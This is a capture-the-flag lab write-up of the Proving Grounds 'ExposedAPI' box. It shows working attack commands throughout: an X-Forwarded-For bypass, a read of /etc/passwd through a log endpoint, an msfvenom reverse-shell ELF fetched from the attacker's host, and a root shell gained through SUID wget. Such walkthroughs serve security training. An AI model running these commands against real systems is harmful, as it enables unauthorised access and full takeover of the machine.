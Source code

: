```yaml
---
title: Proving Grounds - ExposedAPI
date: 2023-03-20
author: Marius
tags: [ctf, 'proving grounds', 'pg']
---
```


Intermediate rated OSCP like box found in Proving Grounds Practice.

### Enumeration

Rustscan revealed open SSH port and API Software running on port 13337.

```
└─$ rustscan -a 192.168.168.134 -- -sC -sV | tee rust_nmap
PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGGcX/x/M6J7Y0V8EeUt0FqceuxieEOe2fUH2RsY3XiSxByQWNQi+XSrFElrfjdR2sgnauIWWhWibfD+kTmSP5gkFcaoSsLtgfMP/2G8yuxPSev+9o1N18gZchJneakItNTaz1ltG1W//qJPZDHmkDneyv798f9ZdXBzidtR5/+2ArZd64bldUxx0irH0lNcf+ICuVlhOZyXGvSx/ceMCRozZrW2JQU+WLvs49gC78zZgvN+wrAZ/3s8gKPOIPobN3ObVSkZ+zngt0Xg/Zl11LLAbyWX7TupAt6lTYOvCSwNVZURyB1dDdjlMAXqT/Ncr4LbP+tvsiI1BKlqxx4I2r
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCpAb2jUKovAahxmPX9l95Pq9YWgXfIgDJw0obIpOjOkdP3b0ukm/mrTNgX2lg1mQBMlS3lzmQmxeyHGg9+xuJA=
|   256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE0omUJRIaMtPNYa4CKBC+XUzVyZsJ1QwsksjpA/6Ml+
13337/tcp open  http    syn-ack Gunicorn 20.0.4
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
|_http-server-header: gunicorn/20.0.4
|_http-title: Remote Software Management API
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Interface of this API.

![API UI](/assets/img/exposedapi/1.png)

Looks like this box made it easy and provided me with instructions on how to use this API.

### Exploitation

I have launched a http listener and interacted with API to see If I will get a call back from **/update** endpoint.

```
└─$ python -m updog -p 80                                 
[+] Serving /home/kali/ctf/pg/exposedapi...
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:80
 * Running on http://192.168.2.147:80
Press CTRL+C to quit
```

```
└─$ curl -X POST -H "Content-Type: application/json" -d '{"user": "root", "url": " <a href="http://192.168.45.5%22%7d'">http://192.168.45.5"}'</a> 192.168.168.134:13337/update
Invalid username.
```

Looks like I need to get a valid username first. Instead I've attempted to get something out of **/logs** endpoint.

```
└─$ curl -X GET 192.168.168.134:13337/logs 
WAF: Access Denied for this Host. 
```

I now need to bypass IP restriction, which can be easily be done with cURL by providing X-Forwarded-for header.

```
└─$ curl -X GET 192.168.168.134:13337/logs -H "X-Forwarded-for: localhost"
Error! No file specified. Use file=/path/to/log/file to access log files. 
```

I have provided **/etc/shadow** file as an input and received file content with valid usernames.

```
└─$ curl -X GET 192.168.168.134:13337/logs?file=/etc/passwd -H "X-Forwarded-for: localhost"
<html>
    <head>
        <title>Remote Software Management API</title>
        <link rel="stylesheet" href="static/style.css"
    </head>
    <body>
        <center><h1 style="color: #F0F0F0;">Remote Software Management API</h1></center>
        <br>
        <br>
        <h2>Attention! This utility should not be exposed to external network. It is just for management on localhost. Contact system administrator(s) if you find this exposed on external network.</h2> 
        <br>
        <br>
        <div class="divmain">
            <h3>Log:</h3>
            <div class="divmin">
            root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
clumsyadmin:x:1000:1000::/home/clumsyadmin:/bin/sh

            </div>
        </div>
    </body>
</html>                                   
```

I have generated elf reverse shell and attempted to upload it via **/update** endpoint.

```
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.5 LPORT=13337 -f elf > shell.elf 
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
```

```
└─$ curl -X POST -H "Content-Type: application/json" -d '{"user": "clumsyadmin", "url": " <a href="http://192.168.45.5/shell.elf%22%7d">http://192.168.45.5/shell.elf"}'</a> 192.168.168.134:13337/update
Update requested by clumsyadmin. Restart the software for changes to take effect. 
```

I have visited **/restart** endpoint via Firefox to restart this application and as expected I have received a reverse shell.

```
└─$ nc -nvlp 13337                                                       
listening on [any] 13337 ...
connect to [192.168.45.5] from (UNKNOWN) [192.168.168.134] 45590
whoami
clumsyadmin
```

### Privilege Escalation

Once I've collected user flag, I checked for SUID binaries.

```
clumsyadmin@xposedapi:/tmp$ find / -type f -perm -04000 -ls 2>/dev/null 
find / -type f -perm -04000 -ls 2>/dev/null 


   273373     52 -rwsr-xr--   1 root     messagebus    51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   276719    428 -rwsr-xr-x   1 root     root         436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
   398815     12 -rwsr-xr-x   1 root     root          10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
   266035     52 -rwsr-xr-x   1 root     root          51280 Jan 10  2019 /usr/bin/mount
   262183     64 -rwsr-xr-x   1 root     root          63736 Jul 27  2018 /usr/bin/passwd
   265710     64 -rwsr-xr-x   1 root     root          63568 Jan 10  2019 /usr/bin/su
   276984    456 -rwsr-xr-x   1 root     root         466496 Apr  5  2019 /usr/bin/wget
   282583     36 -rwsr-xr-x   1 root     root          34896 Apr 22  2020 /usr/bin/fusermount
   266037     36 -rwsr-xr-x   1 root     root          34888 Jan 10  2019 /usr/bin/umount
   262179     56 -rwsr-xr-x   1 root     root          54096 Jul 27  2018 /usr/bin/chfn
   262180     44 -rwsr-xr-x   1 root     root          44528 Jul 27  2018 /usr/bin/chsh
   265563     44 -rwsr-xr-x   1 root     root          44440 Jul 27  2018 /usr/bin/newgrp
   272436    156 -rwsr-xr-x   1 root     root         157192 Jan 20  2021 /usr/bin/sudo
   262182     84 -rwsr-xr-x   1 root     root          84016 Jul 27  2018 /usr/bin/gpasswd
```

**Wget** is definitely an odd one out, you don't see it with SUID bit set that often. Naturally, I checked GTFOBins if this can be abused.


![GTFO Bins](/assets/img/exposedapi/2.png)


```
clumsyadmin@xposedapi:/tmp$ TF=$(mktemp)
TF=$(mktemp)

clumsyadmin@xposedapi:/tmp$ 
clumsyadmin@xposedapi:/tmp$ chmod +x $TF
chmod +x $TF

clumsyadmin@xposedapi:/tmp$ 
clumsyadmin@xposedapi:/tmp$ echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$TF
echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$TF
clumsyadmin@xposedapi:/tmp$ 
clumsyadmin@xposedapi:/tmp$ wget --use-askpass=$TF 0
wget --use-askpass=$TF 0
# whoami
whoami
root
```

Worked like a charm, I am now root!



